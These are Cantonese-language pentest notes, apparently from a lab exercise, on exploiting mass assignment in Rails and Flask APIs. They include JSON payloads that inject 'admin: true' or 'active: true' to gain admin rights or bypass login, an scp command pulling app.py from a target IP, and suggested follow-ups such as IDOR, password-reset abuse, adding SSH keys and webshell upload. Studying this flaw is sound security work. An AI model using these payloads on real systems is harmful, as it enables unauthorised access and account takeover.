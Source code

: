 # Web 批量分配漏洞 ( Ruby on Rails)

#### **1️⃣ 發現點**

* **Ruby on Rails** 係一個常見會有 Mass Assignment 漏洞嘅 Web Framework。
* **發現方式：**
  * 檢查 API 或 Web 應用程式有冇批次更新用戶資料嘅功能
  * 留意 `user`、`account` 等 JSON 參數，睇下會唔會有隱藏欄位（例如 `admin: true`、`role: "superuser"`）
  * 係 Python / Flask / Django 亦可能有類似問題，特別係 `request.get_json()` 直接存入 ORM 嘅地方

***

#### **2️⃣ 測試 Payload**

**假設有以下 API**

```json
POST /update_user
{
    "user": {
        "username": "hacker",
        "email": "hacker@example.com",
        "admin": true
    }
}
```

**可能伺服器執行：**

```ruby
@user.update(params[:user])
```

* 如果 `update()` 直接接受 `params`，冇白名單保護，就可以 **偷偷加上 `admin: true`**，獲取管理員權限！

***

#### **3️⃣ 利用方式**

**攻擊方法** 1️⃣ **找到 API**

* 用 `Burp Suite` 攔截請求，查看是否可以 `POST / PATCH / PUT` 更新用戶資料
* 嘗試修改 JSON 內嘅 `admin`、`role`、`is_superuser`

2️⃣ **透過 SCP 抓取後端代碼**

* 你用以下指令從目標機器抓 `app.py`，並用 VS Code 查看：

```bash
scp root@10.129.205.15:/opt/asset-manager/app.py .
code app.py &
```

* 檢查 `app.py` 內是否有 **`active`** 參數可以利用

3️⃣ **嘗試修改 `active` 參數**

* 假設 `app.py` 內有：

```python
if request.json["active"]:
    login_user()
```

* 你可以發送：

```json
{
    "username": "hacker",
    "password": "test",
    "active": true
}
```

* **成功繞過登入！**

***

#### **5️⃣ 連鎖漏洞 (Chained Exploitation)**

如果 Mass Assignment 成功，下一步可以： ✅ **橫向移動 (Privilege Escalation)**

* 變成 `admin` 之後，試下可以開 `user list`、改密碼、加 SSH Key

✅ **與 XSS / IDOR 結合**

* 如果 API 允許你修改其他用戶資料，可以試 `IDOR` 變更其他帳號
* 如果可以改 `email`，可能可以配合 `Password Reset` 攻擊

✅ **寫 Shell / 提權**

* 如果 `app.py` 允許 `role=admin` 存取某個 `upload.php`，你可以嘗試上傳 Webshell
